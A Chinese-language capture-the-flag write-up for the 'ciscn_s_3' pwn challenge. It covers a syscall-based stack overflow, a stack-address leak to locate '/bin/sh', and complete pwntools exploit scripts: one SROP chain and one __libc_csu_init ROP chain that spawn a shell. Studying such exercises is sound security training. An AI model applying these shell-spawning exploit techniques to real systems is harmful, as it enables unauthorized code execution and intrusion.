



## 0x001 程序分析

分析程序主函数，该程序的main函数中直接调用了vuln函数



在vuln函数函数中，调用了两个 **syscall** 系统调用，先读取输入，然后再打印出来。

## 0x002 漏洞分析

程序中的漏洞很明显，**sys_read** 接收输入长度为0x400，远远超过了 **buf** 的长度，造成栈溢出。

使用checksec查看，程序只开启了NX。



## 0x003 漏洞利用

程序开启了NX保护，漏洞是栈溢出，很容易想到构造ROP来完成利用。

程序中没有 **system** 函数，也没有 **"/bin/sh"** 字符串，那么按照以往的思路来看，就是利用 **write** 来泄露函数真实地址，然后使用LibcSearcher或者DynELFl来泄露 **system** 函数地址，完成漏洞利用。但是这个程序的got表中，没有用到什么函数， **read** 和 **write** 也是通过 **syscall** 系统调用完成的，因此这个方法不太可行。

还有一种就是利用 **syscall** 系统调用来执行 **execve("/bin/sh", 0, 0)** 命令获取系统权限。

这种方法首先需要获取 **/bin/sh** 的地址，可以再输入的时候将 **/bin/sh** 放到栈中，然后通过 **sys_write** 泄露栈地址，通过偏移计算出 **/bin/sh** 的地址。

使用GDB调试看下，



在距离 **/bin/sh** 32字节的地方，有一个栈地址，可以通过泄露这个地址，我这里用的是kali操作系统，距离 **/bin/sh** 的偏移是 0x128 (ubuntu18.04中这个偏移是0x118)

```
payload = b'/bin/sh\x00' + b"A" * 8 + p64(syscall_read_addr)
p.sendline(payload)
p.recv(32)
bin_sh_addr = u64(p.recv(8)) - 0x128
```

有了 **/bin/sh** 的地址，接下来就是调用 **execve** 函数，可以使用 **syscall** 系统调用来完成。使用 **syscall** 执行 **execve("/bin/sh", 0, 0)** 命令的参数为

```
rax = 59
rdi = "/bin/sh"
rsi = 0
rdx = 0
```

给这几个寄存器赋值可以通过寻找 **gadgets** 配合 **__libc_csu_init** 完成，但是通过这种方式来完成ROP太过复杂，这里学到了更好用的方法 SROP。

关于SROP的原理就不多说了，网上有很多。利用SROP需要设置 **syscall** 的参数 **rax=15**，调用 **stub_rt_sigreturn** 函数完成对寄存器的赋值，可以使用pwntools提供的工具来进行利用。

```
sigframe = SigreturnFrame()
sigframe.rax = 59
sigframe.rdi = bin_sh_addr
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rip = syscall_ret_addr

payload = b'A' * 16 + p64(gadgets_addr) + p64(syscall_ret_addr) + bytes(sigframe)
p.sendline(payload)
```

新构造的ROP中，先填充数据，然后利用程序中的gadgets将rax赋值为15，最后使用syscall，将后面 **sigframe** 中构造好的内容赋值到寄存器中，完成 **execve("/bin/sh", 0, 0)** 命令的执行，最终获取系统权限。

最终exp如下：
```
from pwn import *

context.arch = 'amd64'
p = process('./ciscn_s_3')
elf = ELF("ciscn_s_3")

syscall_ret_addr = 0x0400517
syscall_read_addr = 0x04004F1
gadgets_addr = 0x04004DA

payload = b'/bin/sh\x00' + b"A" * 8 + p64(syscall_read_addr)
p.sendline(payload)
p.recv(32)
bin_sh_addr = u64(p.recv(8)) - 0x118

sigframe = SigreturnFrame()
sigframe.rax = 59
sigframe.rdi = bin_sh_addr
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rip = syscall_ret_addr

payload = b'A' * 16 + p64(gadgets_addr) + p64(syscall_ret_addr) + bytes(sigframe)
p.sendline(payload)
p.interactive()
```

## 0x004 不使用SROP

```
payload = b'/bin/sh\x00' + b"A" * 8 + p64(0x4004ed)
p.sendline(payload)
p.recv(32)
bin_sh_addr = u64(p.recv(8)) - 0x128
print (hex(bin_sh_addr))

gadget_execve = 0x4004e2
libc_csu_init_pop = 0x40059A
libc_csu_init_call = 0x400580
pop_rdi_ret = 0x4005a3
syscall_addr = 0x400501

payload2 = b'/bin/sh\x00' + b"A" * 8 + p64(gadget_execve) + p64(libc_csu_init_pop)
payload2 += p64(0)*2 + p64(bin_sh_addr+0x58) + p64(0)*3 + p64(libc_csu_init_call)
payload2 += p64(pop_rdi_ret) + p64(bin_sh_addr) + p64(syscall_addr)

p.sendline(payload2)
p.interactive()
```